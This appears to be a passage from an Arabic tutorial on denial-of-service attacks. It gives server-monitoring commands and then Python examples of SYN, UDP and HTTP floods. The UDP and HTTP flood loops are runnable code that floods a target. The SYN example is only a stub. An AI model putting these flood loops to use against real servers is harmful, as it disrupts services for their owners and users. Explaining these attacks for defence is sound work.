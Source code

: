 ### 1. مراقبة عدد الطلبات
```bash
# مراقبة الاتصالات النشطة
netstat -an | grep :80 | wc -l
```

### 2. مراقبة استخدام الموارد
```bash
# مراقبة استخدام CPU
top
# مراقبة استخدام الذاكرة
free -h
```

### 3. تحليل السجلات
```bash
# مراقبة سجلات الويب
tail -f /var/log/apache2/access.log
```

## 📊 أنواع هجمات DoS

### 1. SYN Flood
```python
# مثال على SYN Flood
import socket

def syn_flood(target, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_TCP)
    # إرسال حزم SYN مزورة
```

### 2. UDP Flood
```python
# مثال على UDP Flood
def udp_flood(target, port):
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    while True:
        s.sendto(b"X" * 1024, (target, port))
```

### 3. HTTP Flood
```python
# مثال على HTTP Flood
import requests

def http_flood(target):
    while True:
        try:
            requests.get(target)
        except:
            pass
```
